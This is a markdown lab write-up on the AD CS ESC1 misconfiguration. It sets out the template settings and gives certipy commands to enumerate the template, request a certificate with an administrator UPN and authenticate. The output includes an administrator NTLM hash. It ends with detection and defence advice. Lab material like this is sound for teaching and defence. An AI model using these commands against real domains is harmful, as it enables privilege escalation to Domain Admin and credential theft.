

# ESC1 — Enrollee-Supplies-Subject + Client Authentication

**Impact:** any low-privileged user → **Domain Admin**
**Lab status:** ✅ verified end-to-end

---

## Concept

ESC1 is the canonical AD CS escalation. A template is misconfigured so that:

1. **`ENROLLEE_SUPPLIES_SUBJECT`** is set — the requester puts the subject
   (including the Subject Alternative Name) in the CSR, instead of the CA reading
   it from the requester's AD account.
2. The template's EKU allows **Client Authentication** (or Smartcard Logon / PKINIT).
3. **Low-privileged users can enroll** and no manager approval / authorized
   signature is required.

Put together: a nobody asks for a certificate that says *"I am Administrator"*,
the CA obligingly signs it, and the KDC accepts it. The identity binding is the
attacker-supplied SAN.



---

## Template configuration in the lab

| Attribute | Value |
|-----------|-------|
| Name | `ESC1` |
| `msPKI-Certificate-Name-Flag` | `ENROLLEE_SUPPLIES_SUBJECT (0x1)` |
| EKU | Client Authentication `1.3.6.1.5.5.7.3.2`, Smartcard Logon `1.3.6.1.4.1.311.20.2.2` |
| `msPKI-RA-Signature` | `0` (no approval) |
| Enroll rights | `ADESCRTL.LAB\LabUsers` |

---

## Enumeration

```bash
certipy find -u lowpriv@adescrtl.lab -p 'Lab12345!' -dc-ip 10.0.0.5 -vulnerable -stdout
```

Certipy flags the template:

```
ESC1 : Enrollee supplies subject and template allows client authentication.
```

---

## Exploitation

Request a certificate as `lowpriv` but name the subject `administrator`:

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC1 \
  -upn administrator@adescrtl.lab \
  -sid 'S-1-5-21-3743172807-389476742-3060699965-500'
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@adescrtl.lab'
[*] Certificate object SID is 'S-1-5-21-3743172807-389476742-3060699965-500'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Authenticate with it:

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.5
```

```
[*] Got TGT
[*] Got hash for 'administrator@adescrtl.lab':
    aad3b435b51404eeaad3b435b51404ee:9d6a0157f349c85398948b6a90a2b6e9
```

Domain Admin.

---

## Why the flags matter

- **`-upn administrator@adescrtl.lab`** — the SAN that becomes the Kerberos
  identity. Because the template is enrollee-supplies-subject, the CA copies it
  verbatim.
- **`-sid …-500`** — required *in this lab* because [ESC16](ESC16.md) removed the
  SID extension. On a template that still stamped a SID you would not supply this;
  here you assert the target's SID so the tooling and any residual binding line up.
- **`-target DC01.adescrtl.lab`** — resolves the CA's RPC endpoint. Omit it and
  you get `0x80094800 CERTSRV_E_UNSUPPORTED_CERT_TYPE`.

---

## Detection & defence

- **Remove `ENROLLEE_SUPPLIES_SUBJECT`** from any template with an authentication
  EKU. The subject should come from AD.
- Require **manager approval** (`CT_FLAG_PEND_ALL_REQUESTS`) or an **authorized
  signature** on sensitive templates.
- Restrict enrollment rights; audit them with `certipy find`.
- Monitor CA event **4886/4887** (request received/issued) and correlate a
  low-priv requester with a privileged SAN.
- Keep the **SID security extension enabled** (do *not* run ESC16) — it defeats
  ESC1 even when the template stays misconfigured.
